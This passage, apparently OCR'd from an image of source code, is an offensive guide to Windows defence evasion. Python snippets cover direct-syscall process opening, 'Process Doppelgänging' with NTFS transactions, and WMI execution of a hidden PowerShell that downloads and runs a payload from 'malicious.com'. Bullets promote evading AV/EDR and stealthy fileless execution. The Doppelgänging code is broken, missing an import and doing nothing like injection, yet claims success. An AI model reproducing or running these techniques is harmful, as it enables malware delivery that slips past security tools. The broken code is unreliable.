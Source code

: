 ```python
    
    if status == 0:
        print(f"[*] Successfully Opened Process {pid}")
    else:
        print("[!] Failed to Open Process")

open_process(1234)  # Replace with target PID
```
✅ Avoids detection from AV/EDR
✅ Does not rely on kernel32.dll API hooks
✅ Uses direct syscall numbers from ntdll.dll


---

2️⃣ Process Doppelgänging (NTFS Transaction Abuse)

💡 Injects malicious code into a process before it fully executes

Implementation
```python
import ctypes
import struct

# Open transaction on NTFS
ntdll = ctypes.windll.ntdll
kernel32 = ctypes.windll.kernel32

CreateTransaction = ntdll.NtCreateTransaction
RollbackTransaction = ntdll.NtRollbackTransaction

# Start a NTFS Transaction
trans = ctypes.c_void_p()
status = CreateTransaction(byref(trans), 0, 0, 0, 0, 0, 0, 0, 0, 0)

if status == 0:
    print("[*] NTFS Transaction Created")

    # Rollback transaction (Malware writes to memory but never to disk)
    RollbackTransaction(trans)
    print("[*] Process Doppelgänging Executed")
else:
    print("[!] Transaction Failed")
```
✅ Executes malware without writing it permanently to disk
✅ Uses Windows NTFS Transactions to evade AV scanning
✅ Allows stealth execution of payloads


3️⃣ WMI Execution (Full Fileless Payload Execution)

💡 Executes commands remotely using Windows Management Instrumentation (WMI)

Implementation
```python
import wmi

c = wmi.WMI()

# Execute PowerShell command via WMI
process_id, return_value = c.Win32_Process.Create(CommandLine="powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')")

print(f"[*] WMI Execution Started, PID: {process_id}")
```
✅ No new process creation via cmd.exe
✅ Fileless execution without dropping files to disk
✅ Bypasses security tools by leveraging WMI